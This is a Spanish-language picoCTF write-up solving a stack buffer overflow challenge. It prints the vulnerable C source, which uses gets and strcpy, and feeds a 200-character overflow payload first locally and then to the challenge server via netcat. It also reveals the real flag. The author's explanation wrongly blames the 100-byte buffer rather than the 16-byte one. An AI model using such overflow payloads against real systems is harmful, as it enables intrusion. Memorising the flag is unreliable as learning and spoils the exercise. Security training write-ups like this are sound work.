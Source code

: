 ## Descripción
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/521/vuln). You can view source [here](https://artifacts.picoctf.net/c/521/vuln.c). And connect with it using:`nc saturn.picoctf.net 65355`

## Solución
1. Descargamos el código fuente y el archivo binario.
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ wget https://artifacts.picoctf.net/c/521/vuln https://artifacts.picoctf.net/c/521/vuln.c
--2022-11-29 00:02:24--  https://artifacts.picoctf.net/c/521/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 13.249.74.69, 13.249.74.22, 13.249.74.17, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|13.249.74.69|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16016 (16K) [application/octet-stream]
Saving to: ‘vuln’

vuln                                      100%[===================================================================================>]  15.64K  --.-KB/s    in 0.01s   

2022-11-29 00:02:25 (1.21 MB/s) - ‘vuln’ saved [16016/16016]

--2022-11-29 00:02:25--  https://artifacts.picoctf.net/c/521/vuln.c
Reusing existing connection to artifacts.picoctf.net:443.
HTTP request sent, awaiting response... 200 OK
Length: 808 [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c                                    100%[===================================================================================>]     808  --.-KB/s    in 0s      

2022-11-29 00:02:26 (1.73 MB/s) - ‘vuln.c’ saved [808/808]

FINISHED --2022-11-29 00:02:26--
Total wall clock time: 1.8s
Downloaded: 2 files, 16K in 0.01s (1.23 MB/s)

┌──(kali㉿kali)-[~/pico]
└─$ ls
vuln  vuln.c

```
2. Damos permisos de ejecución al binario que descargamos.
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ chmod +x vuln         
```
3. Creamos un archivo con el nombre de flag.txt
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ echo 'flag{dummieflag}' > flag.txt
```
4. Inpeccionamos el código fuente del programa.
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ cat vuln.c  
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
           
```
Vemos que el código maneja un buffer de 100 caracteres por lo que si pasamos una cadena de input mayor a 100 caracteres lograremos obtener la bandera.

4. Ejecutamos el archivo binario de forma local para ver si obtenemos la bandera.
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ ./vuln
Input: $(python3 -c "print('A'*200)")
flag{dummieflag}

```
y como podemos ver obtuvimos la bandera local por lo que solo queda obtener la bandera conenctanodos por netcat.

5. Debordamos el buffer pasando una cadena de inpput con más de 100 caracteres para desbordar el buffer
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ nc saturn.picoctf.net 65355 <<< $(python3 -c "print('A'*200)") 
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```

## Notas

